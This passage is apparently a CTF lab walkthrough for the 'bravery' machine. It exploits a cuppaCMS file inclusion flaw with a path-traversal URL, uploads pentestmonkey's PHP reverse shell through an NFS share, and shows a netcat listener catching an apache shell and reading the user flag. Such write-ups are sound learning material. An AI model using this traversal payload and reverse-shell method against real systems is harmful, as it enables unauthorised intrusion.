 This is also the `/cuppaCMS/` path vulnerable to the known exploit we found earlier.
According the exploit-db page, we can evaluate PHP code, which means we can **execute** PHP code!
Using pentestmonkey's php-reverse-shell code we can generate a PHP shell to create a reverse shell. The steps we need to take are:
1. Download the file from Github: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
2. Change the host IP according to your IP address + relevant port
3. Move the file into the nfsshare directory
4. Use netcat to open a listening port for our reverse shell
5. Using Browser, go to: bravery/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=../../../../../../../../../var/nfsshare/rshell.php to execute our shell
6. Profit! An active shell on the system as the apache user where we can read the user flag:

```console
$ nc -lvp1337
listening on [any] 1337 ...
connect to [10.0.0.12] from bravery [10.0.0.15] 60708
Linux bravery 3.10.0-862.3.2.el7.x86_64 #1 SMP Mon May 21 23:36:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 17:52:54 up  8:37,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell

sh-4.2$ whoami
apache

sh-4.2$ ls -la
ls -la
total 28
dr-xr-xr-x.  18 root   root    254 Sep 28  2018 .
dr-xr-xr-x.  18 root   root    254 Sep 28  2018 ..
lrwxrwxrwx.   1 root   root      7 Jun 10  2018 bin -> usr/bin
dr-xr-xr-x.   5 root   root   4096 Jun 13  2018 boot
drwxr-xr-x.  20 root   root   3100 Jan 29 11:15 dev
drwxr-xr-x. 142 root   root   8192 Jan 29 11:15 etc
drwxr-xr-x.   4 root   root     31 Dec 25  2018 home
lrwxrwxrwx.   1 root   root      7 Jun 10  2018 lib -> usr/lib
lrwxrwxrwx.   1 root   root      9 Jun 10  2018 lib64 -> usr/lib64
-rw-r--r--.   1 apache apache   46 Dec 25  2018 local.txt
drwxr-xr-x.   2 root   root      6 Apr 11  2018 media
drwxr-xr-x.   2 root   root      6 Apr 11  2018 mnt
drwxr-xr-x.   3 root   root     16 Jun 13  2018 opt
dr-xr-xr-x. 207 root   root      0 Jan 29 09:15 proc
dr-xr-x---.  17 root   root   4096 Dec 26  2018 root
drwxr-xr-x.  40 root   root   1340 Jan 29 11:27 run
drwxr-xr-x.   4 root   root     38 Jun 14  2018 samba
lrwxrwxrwx.   1 root   root      8 Jun 10  2018 sbin -> usr/sbin
drwxr-xr-x.   2 root   root      6 Apr 11  2018 srv
dr-xr-xr-x.  13 root   root      0 Jan 29 11:14 sys
drwxrwxrwt.   2 root   root      6 Jan 29 11:15 tmp
drwxr-xr-x.  13 root   root    155 Jun 10  2018 usr
drwxr-xr-x.  24 root   root   4096 Dec 25  2018 var

sh-4.2$ cat local.txt
cat local.txt
Congratulations on obtaining a user shell. :)
```
